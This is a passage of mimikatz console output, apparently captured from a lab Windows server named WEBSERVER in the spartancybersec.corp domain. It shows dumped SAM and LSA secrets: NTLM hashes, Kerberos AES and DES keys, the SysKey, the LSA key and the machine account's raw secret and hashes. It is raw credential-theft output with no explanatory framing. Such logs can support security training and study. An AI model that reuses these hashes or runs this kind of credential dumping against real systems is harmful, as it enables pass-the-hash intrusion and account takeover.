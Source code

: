     * Packages *
        NTLM-Strong-NTOWF

    * Primary:Kerberos *
        Default Salt : EC2AMAZ-N0S1NB6Administrator
        Credentials
          des_cbc_md5       : 264a2c3df40ba886
        OldCredentials
          des_cbc_md5       : 76315edf8a0191ea


    RID  : 000001f5 (501)
    User : Guest

    RID  : 000001f7 (503)
    User : DefaultAccount

    RID  : 000001f8 (504)
    User : WDAGUtilityAccount
      Hash NTLM: d7da45674bae3a0476c0f64b67121f7d

    Supplemental Credentials:
    * Primary:NTLM-Strong-NTOWF *
        Random Value : be9923d30a0cdf3a73493d7d32eb96e4

    * Primary:Kerberos-Newer-Keys *
        Default Salt : WDAGUtilityAccount
        Default Iterations : 4096
        Credentials
          aes256_hmac       (4096) : c5a174bdaaf42f78aea168d2bb0736459de5ad0b5051997187d8b86f7af8ee69
          aes128_hmac       (4096) : 17456060abe8c50bc7ec5474e44d0ae4
          des_cbc_md5       (4096) : 5e435ecec4efbfdc

    * Packages *
        NTLM-Strong-NTOWF

    * Primary:Kerberos *
        Default Salt : WDAGUtilityAccount
        Credentials
          des_cbc_md5       : 5e435ecec4efbfdc


    mimikatz(commandline) # lsadump::secrets
    Domain : WEBSERVER
    SysKey : ea7b3f466f263386e6dc165bcde0d1d2

    Local name : WEBSERVER ( S-1-5-21-35825707-945739770-2891244367 )
    Domain name : SPARTANCYBERSEC ( S-1-5-21-1861162130-2580302541-221646211 )
    Domain FQDN : spartancybersec.corp

    Policy subsystem is : 1.18
    LSA Key(s) : 1, default {140c9bf8-da47-a27f-96d7-2b5527fd404e}
      [00] {140c9bf8-da47-a27f-96d7-2b5527fd404e} d51da8d90b5e95219f57070b04e71dfb6e95fc27241437fc8ef876b3c2ff43a6

    Secret  : $MACHINE.ACC
    cur/hex : 34 f7 2c a2 fa 00 56 a8 2a bc a7 ad d3 22 c9 cf dc 8c fe f8 87 ca 51 22 44 fb 80 b4 39 22 31 03 c1 bd 32 46 81 65 98 f4 fc c2 b8 22 fc 84 7f c3 81 fa 69 8d 77 d2 ed e9 57 b4 51 19 4b 1a 94 04 6c fc 1c 42 03 e6 1b 0a e6 90 61 40 10 9e a8 95 33 69 fa f5 65 f6 67 12 15 ae fe b7 64 ce d7 58 27 c7 62 7d 5d 79 40 73 c9 b9 32 2d 7d b1 82 5d ca b5 f2 ec 28 33 ea 00 5a 83 b1 ac b6 cc 63 9b 4a 3f ab 2e f2 41 c1 3c a4 a1 8e 84 51 af 8e a7 76 f0 68 13 e4 23 be 79 32 ff 7a 6a c7 34 ac c5 44 2a c8 91 a1 76 b5 04 c5 31 ad c5 ee 13 f4 96 fa 0f 25 86 5c 34 6e f7 c3 9e e9 1e c6 8b 5c 6a 71 72 dd 8f c2 d2 c5 91 1a c9 e1 3a ac 89 24 ea ef 08 66 30 50 b1 bd d6 39 8e 9b d7 0a 5d a0 e4 b1 21 7c 20 5b dd a1 69 ce 63 d1 70 15 e9 11 f1
        NTLM:449c5f226aff8a2af42ac07ebaf901cb
        SHA1:8af38efaf6e0c5c701c5d793438fbcdf4815777a